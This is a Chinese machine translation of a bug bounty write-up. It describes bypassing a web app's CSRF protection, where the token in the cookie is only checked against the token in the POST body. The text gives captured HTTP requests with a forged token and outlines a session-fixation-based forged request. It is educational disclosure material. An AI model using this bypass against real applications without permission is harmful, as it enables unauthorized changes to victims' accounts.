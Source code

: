 # Bug Bounty:让我们绕过整个网络应用的 CSRF 保护

> 原文：<https://infosecwriteups.com/bug-bounty-lets-bypass-an-entire-web-app-s-csrf-protection-friend-link-b69c43e9dcf7?source=collection_archive---------2----------------------->

## CSRF 令牌并不总是足够的

![](img/1cbfb74e01aae6091cb1af188a796bc7.png)

照片由[迈克尔·泽兹奇](https://unsplash.com/@lazycreekimages?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄

大家好，

我希望你这段时间过得很好。我决定写一些有趣的 bug bounty 文章来帮助新手找到他们的第一个 bug。

今天我想谈谈我在一个私人的臭虫奖励项目中发现的一个臭虫。它包括绕过公司 Web 应用程序的整个 csrf 保护系统。

因为这是一个私人的臭虫奖励计划，让我们假设我们的目标是 https://redacted.com。

现在，当我编辑我的账户设置时，我总是寻找 CSRF。保存我的帐户设置时，我会收到这样的请求:

```
POST /User/Edit?status=success HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 303
Origin: https://redacted.com
Connection: close
Referer: https://redacted.com/User/Edit?status=success
Cookie: Cookie: _ga=value; _gid=value; _fbp=value; _hjid=value; session=value; countryCode=value; regionCode=04; current_page=%2FUser%2FEdit%3Fstatus%3Dsuccess; banner-covid19-dismissed=1; last_page=%2FUser%2FEdit; csrf=1j2wjowidwdne; _uetsid=value; _uetvid=value
Upgrade-Insecure-Requests: 1originalEditLogin=email@email.com&originalEditUsername=Test+Pentester+CSRF&userid=userid&avatarImageID=&uniqueUsername=testpentester&editUsername=Test+Pentester+CSRF+test&Ecom_BillTo_Online_Email_Login_Edit=email@email.com&editPassword=&editPassword2=&latitude=&longitude=&csrf=1j2wjowidwdne
```

目前看来一切正常，但是试着看看饼干。你会注意到那里有一个`csrf`值；最重要的是，它在 POST 数据中具有与 csrf 令牌相同的值。听起来不错…

为什么 cookie 中有 POST 数据的重复 csrf 令牌？如果令牌是在服务器端验证的，这就没有意义了。但是如果令牌是在客户端验证的呢？

我尝试用另一个令牌值(比如说`customtoken123`)来更改 cookie 和 post 数据参数中的 csrf 值。请求看起来像这样:

```
POST /User/Edit?status=success HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 303
Origin: https://redacted.com
Connection: close
Referer: https://redacted.com/User/Edit?status=success
Cookie: Cookie: _ga=value; _gid=value; _fbp=value; _hjid=value; session=value; countryCode=value; regionCode=04; current_page=%2FUser%2FEdit%3Fstatus%3Dsuccess; banner-covid19-dismissed=1; last_page=%2FUser%2FEdit; csrf=customtoken123; _uetsid=value; _uetvid=value
Upgrade-Insecure-Requests: 1originalEditLogin=email@email.com&originalEditUsername=Test+Pentester+CSRF&userid=userid&avatarImageID=&uniqueUsername=testpentester&editUsername=Test+Pentester+CSRF+test&Ecom_BillTo_Online_Email_Login_Edit=email@email.com&editPassword=&editPassword2=&latitude=&longitude=&csrf=customtoken123
```

并且，当我转发这个的时候，得到了成功的回复，哇！

这是因为，应用程序检查 POST 数据和 cookie 中的令牌是否具有相同的值。因此，令牌没有经过服务器端验证。这种特殊的 CSRF 攻击通过会话固定被命名为 CSRF。这个名字是由于利用它的方式:您首先使用会话固定攻击将 cookie 值中的`csrf`令牌更改为例如`tok_1234`，然后让受害者执行如下 POST 请求:

```
POST / HTTP/1.1originalEditLogin=email@email.com&originalEditUsername=Test+Pentester+CSRF&userid=userid&avatarImageID=&uniqueUsername=testpentester&editUsername=Test+Pentester+CSRF+test&Ecom_BillTo_Online_Email_Login_Edit=email@email.com&editPassword=&editPassword2=&latitude=&longitude=&csrf=tok_1234
```

# 外卖食品

*   如果有 csrf 保护，并不意味着 webapp 不容易受到 csrf 的攻击
*   寻找 csrf 时，请务必查看 cookies

希望你喜欢这篇文章，并继续关注更多有趣的 BugBounty 技巧和文章。